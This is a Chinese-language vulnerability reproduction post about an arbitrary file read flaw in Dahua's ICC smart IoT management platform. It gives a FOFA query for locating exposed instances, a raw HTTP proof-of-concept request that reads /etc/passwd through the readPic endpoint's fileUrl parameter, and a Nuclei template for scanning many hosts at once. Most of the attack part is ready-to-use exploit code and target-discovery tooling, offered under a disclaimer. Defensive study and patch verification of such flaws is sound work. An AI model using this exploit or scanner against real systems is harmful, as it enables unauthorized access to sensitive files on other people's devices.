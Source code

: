 # 原创
：  漏洞复现--大华ICC readpic任意文件读取漏洞

# 漏洞复现--大华ICC readpic任意文件读取漏洞

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负**

### 一：漏洞描述

ICC，即大华浩睿智能物联综合管理平台。<br/> 对技术组件进行模块化和松耦合，将解决方案分层分级，提高面向智慧物联的数据接入与生态合作能力。<br/> 该产品readpic存在任意文件读取漏洞

### 二：漏洞影响版本

大华ICC智能物联综合管理平台

### 三：网络空间测绘查询

fofa:<br/> `body="*客户端会小于800*"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0410abff57d7634a3f5c9bfab04b9a43.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/15f2f527292bb25cf947f284865f79bb.jpeg"/><br/> POC：

```
GET /evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

```

### 五：批量检测

```

id: dahua-icc-readpic-anyfileread

info:
  name: 大华ICC readpic任意文件读取漏洞
  author: fgz
  severity: high
  description: |
    2021年大华全新发布的ICC架构下的基础停车业务系统，基于硬件+平台+服务能力，依托集中化管控模式，提供中大型园区集团化管理、多社区停车场联网等项目的集成应用，打造集停车场管理、运营和生态于一体的赋能平台，实现降本、增收、提效。大华ICC智能物联综合管理平台存在任意文件读取漏洞，会造成敏感信息泄露。
  tags: 2023,dahua,fileread
  metadata:
    max-request: 2
    fofa-query: body="*客户端会小于800*"
    verified: true

http:
  - method: GET
    path:
      - "{{BaseURL}}/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd"
    matchers:
      - type: regex
        part: body
        regex:
          - "root:.*?:[0-9]*:[0-9]*:"

```
